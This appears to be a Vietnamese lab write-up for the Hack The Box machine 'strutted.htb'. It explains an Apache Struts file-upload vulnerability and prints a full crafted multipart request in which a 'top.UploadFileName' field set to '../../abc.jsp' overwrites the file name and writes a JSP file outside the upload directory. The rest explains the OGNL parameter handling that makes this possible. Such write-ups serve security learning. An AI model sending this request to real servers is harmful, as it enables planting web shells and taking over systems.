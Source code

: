 Đầu tiên thì tôi upload 1 cái ảnh và bắt request đó lại:

<img width="1555" height="828" alt="image" src="https://github.com/user-attachments/assets/603a7eba-a81d-49cb-87ba-ac6931f3476a" />

Sửa request thành thế này, đổi tên thành `Upload`, thêm `WebKitFormBoundarymRlI8gL9FTKrb4rw` và bên dưới đó là `Content-Disposition: form-data; name="top.UploadFileName"` và vị trí upload:

```
POST /upload.action HTTP/1.1
Host: strutted.htb
Content-Length: 419
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://strutted.htb
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymRlI8gL9FTKrb4rw
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://strutted.htb/upload.action
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=3FE2C535C3C2BF948BF31BB24B894837
Connection: keep-alive

------WebKitFormBoundarymRlI8gL9FTKrb4rw
Content-Disposition: form-data; name="Upload"; filename="abcd.jpg"
Content-Type: image/jpeg

jpg signature
this is a test!
------WebKitFormBoundarymRlI8gL9FTKrb4rw
Content-Disposition: form-data; name="top.UploadFileName"

../../abc.jsp
------WebKitFormBoundarymRlI8gL9FTKrb4rw--
```
<img width="1206" height="577" alt="image" src="https://github.com/user-attachments/assets/db998dba-9dc9-4d14-836b-8d060a8fa2e1" />

Điểm chốt của request: phần field thường top.UploadFileName buộc Struts ghi đè giá trị tên file

Trường file tên Upload → theo tài liệu Struts, FileUploadInterceptor sẽ tự thêm 3 tham số tương ứng cho tên trường này:

upload (đối tượng File tạm),

uploadContentType (String),

uploadFileName (String – tên file phía client).

Lý do phải đổi thành `Upload` viết hoa chữ U là do đây:

<img width="1138" height="741" alt="image" src="https://github.com/user-attachments/assets/2d80cd10-d33b-4b17-a8a6-197e9480ca45" />

Tên tham số `top.UploadFileName` sẽ được `ParametersInterceptor` xem như một biểu thức `OGNL` và ghi giá trị vào thuộc tính tương ứng trên đối tượng ở “đỉnh” ValueStack (thường là Action). 
Struts ghi rõ: “parameter names are effectively OGNL statements” và kiểm soát (lọc) biểu thức trong `acceptableName`.
